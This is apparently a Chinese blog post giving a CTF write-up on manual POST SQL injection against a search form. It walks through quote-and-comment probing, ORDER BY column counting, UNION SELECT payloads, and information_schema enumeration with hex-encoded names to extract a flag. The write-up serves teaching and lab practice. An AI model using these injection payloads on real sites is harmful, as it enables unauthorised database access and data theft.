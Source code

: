 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      SQL注入 --手工post          # 标题 
subtitle:   post注入   #副标题
date:       2020-03-13              # 时间
author:        SGQ                   # 作者
header-img: img/post-bg-hacker.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                                    #标签
    - SQL注入  
    
    
---
```


## 原理:
> 简单的说就是在post/getweb表单、输入域名或页面请求的查询字符串中插入SQL命令，最终使web服务器执行恶意命令的过程。
假设某网站页面显示时URL为`http://www.xxx.com?test=123` ，此时URL实际向服务器传递了值为123的变量test，这表明当前页面是对数据库进行动态查询的结果。由此，我们可以在URL中插入恶意的SQL语句并进行执行。

## 题目:

>

>**一个简单的输入搜索框**

>

## 考察点：
>**sql注入中的post注入。**

>一般有两种方式：

>第一种方式，通过burpsuit抓包存在一个文件中，然后通过sqlmap -r进行读取。

>第二种方式，通过手工注入，构造`payload`，进行union查询。如果通过手工注入，怎么分析注入点，怎么构造payload，怎么获取表名列名，怎么读取数据呢？

## 解题过程：
>1.首先查看网页源代码，发现是post方法，果断打开hackerbar。post注入是通过对输入框进行传参，可以被带入数据库进行的查询，
post注入的两个条件：1.用户可以控制传参，2.用户输入的语句被带入数据库进行查询。

>2.Post data 框 输入`search='`，发现页面出错，可知存在注入的可能。继续输入`search=' and 1=1`，发现依然报错，`search=' and 1=1#` 发现变回正常页面。证明存在注入点，可用'  #进行闭合。

>如何理解所构造的payload？

>

>OK,简单的解释一下SQL语句.我们搜索的内容是 `' and 1=1 # `,代入到数据库的语句是:` select * from XXX where search = ' ' and 1=1 #'`，搜索框开头输入的单引号闭合了原来前面的单引号，最后是一个#,注释了后面的单引号,数据库在执行语句的时候其实执行的是:`select * from XXX where content = ' ' and 1=1`,这个语句理解就很简单了。

> 3.用`order by` 查询当前页面连接的列名个数：`search=' order by 1# `页面返回正常 ，直到4，页面开始出错，说明有3个。

> 4.使用`union` 联合查询 显错点，输出点，语句：`search='  union select 1,2,3# `，页面爆出显位2，3。

> 5.OK,接下来的步骤就很容易了，利用hackerbar插件，构造`search= ' Union Select 1,CONCAT_WS(0x203a20,USER(),DATABASE(),VERSION()),3# `,得到数据库名为news。

> 6.接着获取表名，构造`search= ' Union Select 1,group concat(table name),3 from information schema.tables where table schema= 0x6E657773 # `，得到表名为**f1agfl4gher3。**

> 注意：这里需要把数据库名称`news`做了一个16进制Hex编码，编码之后为`0x6E657773 `。

>7.同理获取列名：`search= ' Union Select 1,group concat(column name),3 from information schema.columns where table name=0x66316167666C346768657233)# ` ，得到列名为**h3r31sfl4g。**

> 8.最后获取数据，`search= ' Union Select 1,h3r31sfl4g,3 from f1agfl4gher3 # `，得到flag！

> **flag{sql_ information_ schema_ hack}**





[参考链接（一）](https://www.fujieace.com/penetration-test/mysql-manual-injection.html)

[参考链接（二）](https://blog.csdn.net/qq_42097777/article/details/89088142)

## 谢谢您的查阅，欢迎来访！
